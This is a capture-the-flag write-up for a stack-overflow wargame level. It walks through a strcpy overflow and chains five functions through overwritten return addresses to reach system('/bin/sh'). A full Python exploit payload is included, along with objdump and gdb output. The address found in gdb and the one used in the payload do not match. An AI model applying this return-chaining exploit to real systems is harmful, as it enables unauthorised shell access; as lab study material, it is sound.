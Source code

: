 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary so I can overwrite SFP and RET address.

But there is a protection code:
```c
// stack destroyer
// 100 : extra space for copied argv[1]
memset(buffer, 0, 44);
memset(buffer+48+100, 0, 0xbfffffff - (int)(buffer+48+100));

// LD_* eraser
// 40 : extra space for memset function
memset(buffer-3000, 0, 3000-40);
```
This code makes me not able to use stack address.

# Exploitation

```c
void MO(char *cmd)
{
  if(check != 4)
    exit(0);

  printf("welcome to the MO!\n");
	// olleh!
	system(cmd);
}

void YUT(void)
{
  if(check != 3)
    exit(0);

  printf("welcome to the YUT!\n");
  check = 4;
}

void GUL(void)
{
  if(check != 2)
    exit(0);

  printf("welcome to the GUL!\n");
  check = 3;
}

void GYE(void)
{
	if(check != 1)
		exit(0);

	printf("welcome to the GYE!\n");
	check = 2;
}

void DO(void)
{
	printf("welcome to the DO!\n");
	check = 1;
}
```
In this code, I have to call DO, GYE, GUL, YUT, MO continously to increase check that used in MO function which executes system function with cmd parameter.

When I give DO's address to RET's address, the DO will be called and after DO finished, next 4 bytes adress will be executed.

In that way, I can call functions countinously.

The payload will be:
```
------------------------------------------------------------------------------------------------------------------
| A(44) | DO's address | GYE's address | GUL's address | YUT's address | MO's address | AAAA | /bin/sh's address |
------------------------------------------------------------------------------------------------------------------
```

Get function's address by using objdump & grep:
```
[zombie_assassin@localhost zombie_assassin]$ objdump -d ./succubus | grep DO    
080487ec <DO>:
[zombie_assassin@localhost zombie_assassin]$ objdump -d ./succubus | grep GYE
080487bc <GYE>:
 80487c6:	74 0a                	je     80487d2 <GYE+0x16>
[zombie_assassin@localhost zombie_assassin]$ objdump -d ./succubus | grep GUL 
0804878c <GUL>:
 8048796:	74 0a                	je     80487a2 <GUL+0x16>
[zombie_assassin@localhost zombie_assassin]$ objdump -d ./succubus | grep YUT
0804875c <YUT>:
 8048766:	74 0a                	je     8048772 <YUT+0x16>
[zombie_assassin@localhost zombie_assassin]$ objdump -d ./succubus | grep MO 
08048724 <MO>:
 804872e:	74 10                	je     8048740 <MO+0x1c>
```

But there is a little problem, I cannot give "/bin/sh"'s address successfully because this program makes me not able to use library address(\x40).

So, I will give "/bin/sh" string in argv[1]'s last part and get that address then I can give that address in MO's param.

To know that address, give param like:
```
------------------------------------------
| MO's address | AAAA | BBBB | "/bin/sh" |
------------------------------------------
```
I found that address:
```
(gdb) x/10s $esp
0xbffffa94:	 "BBBB/bin/sh"
0xbffffaa0:	 "\b\210\004\b\002"
```
/bin/sh's address is 0xbffffa94.

# Payload
```python
import os

filename = "/home/zombie_assassin/succubus"

payload = ""
payload = payload + "A"*44
payload = payload + "\xec\x87\x04\x08" # DO's address
payload = payload + "\xbc\x87\x04\x08" # GYE's address
payload = payload + "\x8c\x87\x04\x08" # GUL's address
payload = payload + "\x5c\x87\x04\x08" # YUT's address
payload = payload + "\x24\x87\x04\x08" # MO's address
payload = payload + "AAAA" # MO's ret address
payload = payload + "\x68\xfa\xff\xbf" # /bin/sh's address
payload = payload + "/bin/sh" # give /bin/sh string to use as param

os.execv(filename, [filename, payload])
```
